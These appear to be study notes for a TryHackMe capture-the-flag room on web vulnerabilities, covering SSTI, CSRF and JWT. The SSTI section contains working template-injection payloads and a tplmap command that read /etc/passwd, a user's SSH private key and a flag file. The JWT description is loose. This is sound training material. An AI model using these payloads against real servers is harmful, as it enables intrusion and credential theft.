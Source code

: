 # Room
https://tryhackme.com/room/zthobscurewebvulns

# Task 1 - Intro
The larger vulnerabilities in web applications are:
* SSTI
* CSRF
* JWT
* XXE

# Task 2 - Methodology
Sections

# Task 3 - SSTI - What is SSTI
SSTI - Server Side Template Injection.  Template engines allow developers to use static HTML pages with dynamic parts such as a username.  Different template engines have different injection payloads.

# Task 4 - SSTI - Manual exploitation of SSTI
Research
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection

Examples
* Use cat to read the /etc/passwd
    ```
    {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
    ```
* Use read to view test's SSH private key
    ```
    {{ ''.__class__.__mro__[2].__subclasses__()[40]()('/home/test/.ssh/id_rsa').read()}}
    ```

# Task 5 - SSTI - Automatic exploitation of SSTI
Tool to detect SSTI
* https://github.com/epinna/tplmap

Examples
* Grab /etc/passwd with a vulnerable parameter
    ```
    tplmap.py -u http://10.10.10.10:5000/ -d 'noot' --os-cmd 'cat /etc/passwd'
    ```

# Task 6 - SSTI - Challenge
Use SSTI to read /flag
```
{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```

# Task 7 - CSRF - What is CSRF
CSRF - Cross Site Request Forgery.  CSRF happens when a user visits a page on one site, but then an action is performed on a different site.

# Task 8 - CSRF - Manual Exploitation of CSRF
Example

# Task 9 - CSRF - Automatic Exploitation
Tool
* xsrfprobe for Python

Install
* pip3 instal xsrfprobe

Use
* xsrfprobe -u url/endpoint
    ```
    xsrfprobe

        XSRFProbe, A Cross Site Request Forgery Audit Toolkit

    usage: xsrfprobe -u <url> <args>

    Required Arguments:
    -u URL, --url URL     Main URL to test

    Optional Arguments:
    -c COOKIE, --cookie COOKIE
                            Cookie value to be requested with each successive request. If there are multiple cookies, separate them with commas. For example: `-c
                            PHPSESSID=i837c5n83u4, _gid=jdhfbuysf`.
    -o OUTPUT, --output OUTPUT
                            Output directory where files to be stored. Default is the output/ folder where all files generated will be stored.
    -d DELAY, --delay DELAY
                            Time delay between requests in seconds. Default is zero.
    -q, --quiet           Set the DEBUG mode to quiet. Report only when vulnerabilities are found. Minimal output will be printed on screen.
    -H HEADERS, --headers HEADERS
                            Comma separated list of custom headers you'd want to use. For example: ``--headers "Accept=text/php, X-Requested-With=Dumb"``.
    -v, --verbose         Increase the verbosity of the output (e.g., -vv is more than -v).
    -t TIMEOUT, --timeout TIMEOUT
                            HTTP request timeout value in seconds. The entered value may be either in floating point decimal or an integer. Example: ``--timeout
                            10.0``
    -E EXCLUDE, --exclude EXCLUDE
                            Comma separated list of paths or directories to be excluded which are not in scope. These paths/dirs won't be scanned. For example:
                            `--exclude somepage/, sensitive-dir/, pleasedontscan/`
    --user-agent USER_AGENT
                            Custom user-agent to be used. Only one user-agent can be specified.
    --max-chars MAXCHARS  Maximum allowed character length for the custom token value to be generated. For example: `--max-chars 5`. Default value is 6.
    --crawl               Crawl the whole site and simultaneously test all discovered endpoints for CSRF.
    --no-analysis         Skip the Post-Scan Analysis of Tokens which were gathered during requests
    --malicious           Generate a malicious CSRF Form which can be used in real-world exploits.
    --skip-poc            Skip the PoC Form Generation of POST-Based Cross Site Request Forgeries.
    --no-verify           Do not verify SSL certificates with requests.
    --display             Print out response headers of requests while making requests.
    --update              Update XSRFProbe to latest version on GitHub via git.
    --random-agent        Use random user-agents for making requests.
    --version             Display the version of XSRFProbe and exit.
    ```

# Task 10 - CSRF - Challenge
Challenge

# Task 11 - JWT - Intro
JWT = JSON Web Token.  A very secure method of authentication if done right.  JWT makeup: header.payload.secret.  The secret is only known to the server.  The JWT is base64 encoded.  If you control the secret you can control the data.

# Task 12 - JWT - Manual JWT Exploitation
Example

# Task 13 - JWT - Automatic JWT Exploitation
Example

# Task 14 - JWT - Challenge
